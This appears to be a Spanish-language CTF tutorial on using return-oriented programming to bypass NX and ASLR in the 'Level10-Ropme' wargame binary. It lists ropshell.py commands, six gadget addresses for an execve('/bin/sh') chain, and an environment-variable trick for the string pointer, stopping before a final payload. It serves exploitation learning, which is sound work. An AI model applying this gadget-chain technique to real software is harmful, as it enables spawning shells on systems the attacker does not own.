 
## **TÉCNICAS ROP para saltarse NX/ASLR**

Referencias:  
Para jugar: http://wargame2k10.nuitduhack.com/  
Para aprender: http://danigargu.blogspot.com.es/2013/01/having-fun-with-rop-nxaslr-bypass-linux_18.html  


Básicamente se trata de seguir la guia de arriba, está muy bien escrita, todo un crack el que hace ese blog.
Se trata de seguir el ejercicio Level10-Ropme.

**ROP**: Se trata de una técnica de explotación que consiste básicamente en buscar en las secciones ejecutables del binario (que no son afectadas por el ASLR, por ejemplo: text) "gadgets", que en realidad son pequeños trozos de código seguidos inmediatamente de un RET. Después, estos gadgets serán utilizados para crear una cadena de instrucciones, de forma que cada gadget volverá al próximo gadget (a la dirección del siguiente gadget, que estará en la pila).


**1.- Usar ropeme(ropshell.py) para encontrar gagdgets con los que ir saltando de ret en ret para adecuar los registros y la pila a una llamada a execve**

```
./ropshell.py
generate ./level10_ropme
load ./level10_ropme.ggt
search ....
```

Gadgets a utilizar

```
    1.- 0x8052341L: pop edx ; pop ecx ; pop ebx ;;
    2.- 0x80853a6L: inc ecx ; adc al 0x39 ;;
    3.- 0x804ece9L: inc edx ; add al 0x83 ;;
    4.- 0x804825cL: xor eax eax ; inc eax ;;
    5.- 0x804825eL: inc eax ;;
    6.- 0x8048260L: int 0x80 ; pop ebp ;;
```

Con estos 6 gadgets tenemos suficiente para hacer una llamada a execve, ya que tenemos el control sobre eax (4, 5), ebx (1), ecx (1, 2) y edx (1, 3). Ahora tenemos que conseguir que dichos registros tengan los siguientes valores:

```
    EAX = 0xb (syscall execve)
    EBX = puntero a cadena
    ECX = 0x0 (NULL)
    EDX = 0x0 (NULL)
```

**2.- El puntero a cadena se puede solucionar de dos maneras dependiendo si tenemos ASLR activado:**

**- Sin ASLR:** Generamos una variable de entorno y pasamos esa dirección a EBX: 

```
export EGG='/bin/sh'  
./getenv EGG ./level10_ropme
Var is stored at address 0xbffffb76
Pointer: 0xbffffb76	 LongArg0: 8	 LongArg2: 15
EGG will be at 0xbffffb68
```	
		